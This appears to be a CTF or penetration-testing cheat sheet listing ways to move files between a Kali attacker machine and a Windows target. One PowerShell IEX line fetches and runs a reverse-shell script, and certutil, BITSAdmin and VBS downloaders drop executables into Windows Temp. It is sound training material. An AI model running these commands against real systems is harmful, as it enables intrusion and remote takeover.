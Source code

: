 ```yaml
---
title: "File_Transfer"
date: 2022-11-05 17.04
categories: [Miscellaneous, CTF]
tags: [file_transfering , file_server, netcat, powershell]
author: LXD
image: /assets/img/posts/misc/Data-Transfer.jpg
---
```


![Data-Transfer](/assets/img/posts/misc/Data-Transfer.jpg)
***Python***
- **`python3 -m http.server 80`**
***
***Netcat***
- (on the receiver side) **`nc -l -p 1234 > [file_name]`**
- (on the sender side) **`nc -w 3 10.2.111.159 1234 < [file_name]`**

**On Windows run:**

-	 `nc.exe -nv 10.0.0.1 4444 < file.exe`
***
**Powershell**

**Transferring from Kali to Windows**
*Go to terminal open a listener with :*
- `python3 -m http.server 80`
*Download it from Windows(As x64 bits) :*
- `C:\\Windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe IEX (New-Object Net.Webclient).downloadStrings('http://10.10.10.10/Invoke-PowershellTcp.ps1')`
***
OR
***CertUtil***

*certutil.exe is available on more modern versions of Windows.*

`certutil.exe -urlcache -split -f http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe`

***

***FTP***

*We can use python to create a quick FTP server. Install the following package:*

`apt install python3-pyftpdlib`

**Transferring from Kali to Windows**

-	`python3 -m pyftpdlib -p 21`

**OR**

-	`python -m pyftpdlib -p 21`
***
***SSH***
*We can upload and downloand file through ssh via scp:*

**Downloading:**
- `scp sarah@10.10.54.199:'/Path/To/The/File' wordlist.txt`

**Uploading:**
- `scp /home/fl3sh/hash.txt john@192.168.10.5:/home/john/scripts`

*On Windows, create a text file with the commands you wish to use:*
```
echo open 192.168.1.78 > ftp.txt
echo binary >> ftp.txt
echo get test.txt >> ftp.txt
echo bye >> ftp.txt
```
*You can then execute the commands in the file with the following command:*

-	`ftp -A -s:ftp.txt`

***
***TFTP***

*TFTP is installed by default on Windows XP. It may not be installed on other versions of Windows. Sometimes it can be enabled on the command line:**

`pkgmgr /iu:"TFTP"`

On Kali install a TFTP server:

`apt install atftpd`

Create a dedicated tftp directory and change the ownership:
```
mkdir /tftp
chown nobody:nogroup /tftp
```

Run the TFTP server:

`atftpd --daemon --no-fork /tftp/`

**Transferring from Kali to Windows**

`tftp -i 10.0.0.1 GET file.exe`

**Transferring from Windows to Kali**

`tftp -i 10.0.0.1 PUT file.exe`
***
***SMB***

**Run the server on Kali:**

`python /usr/share/doc/python-impacket/examples/smbserver.py kali /path/to/directory`

*On Windows, check that the share can be seen:**

`net view \\10.0.0.1`
Shared resources at \\10.0.0.1

(null)

Share name  Type  Used as  Comment

-----------------------------------
KALI        Disk
The command completed successfully.

Regular filesystem commands should all work, and files can be copied to and from the share:

1 -	`dir \\10.0.0.1\kali`
2 - `copy \\10.0.0.1\kali\file.exe C:\Windows\Temp\file.exe`
3 - `copy C:\Windows\Temp\file.exe \\10.0.0.1\kali\file.exe`
***
***HTTP***

`python3 -m http.server 4444`

OR

`python -m SimpleHTTPServer 4444`
***

***BITSAdmin***
`
bitsadmin /transfer myDownloadJob /download /priority normal http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe`
***
**PowerShell Script**
`
powershell.exe -c "(new-object System.Net.WebClient).DownloadFile('http://10.0.0.1:4444/file.exe','C:\Windows\Temp\file.exe')"`
***
**Can also be dumped into a script:**
```
echo $webclient = New-Object System.Net.WebClient > wget.ps1
echo $url = "http://10.0.0.1:4444/file.exe" >> wget.ps1
echo $output = "C:\Windows\Temp\file.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$output) >> wget.ps1
```
**Run with:**
-	`powershell wget.ps1`
***
***VBS Script***
```
strFileURL = "http://10.0.0.1:4444/file.exe"
strHDLocation = "C:\Windows\Temp\file.exe"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1 'adTypeBinary
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing
```
**As a series of echo statements:**
```
echo strFileURL = "http://10.0.0.1:4444/file.exe" >> downloadfile.vbs
echo strHDLocation = "C:\Windows\Temp\file.exe" >> downloadfile.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> downloadfile.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> downloadfile.vbs
echo objXMLHTTP.send() >> downloadfile.vbs
echo If objXMLHTTP.Status = 200 Then >> downloadfile.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> downloadfile.vbs
echo objADOStream.Open >> downloadfile.vbs
echo objADOStream.Type = 1 'adTypeBinary >> downloadfile.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> downloadfile.vbs
echo objADOStream.Position = 0 >> downloadfile.vbs
echo Set objFSO = CreateObject("Scripting.FileSystemObject") >> downloadfile.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> downloadfile.vbs
echo Set objFSO = Nothing >> downloadfile.vbs
echo objADOStream.SaveToFile strHDLocation >> downloadfile.vbs
echo objADOStream.Close >> downloadfile.vbs
echo Set objADOStream = Nothing >> downloadfile.vbs
echo End if >> downloadfile.vbs
echo Set objXMLHTTP = Nothing >> downloadfile.vbs
echo ""
```
**Run with the following command:**
-	`cscript downloadfile.vbs`
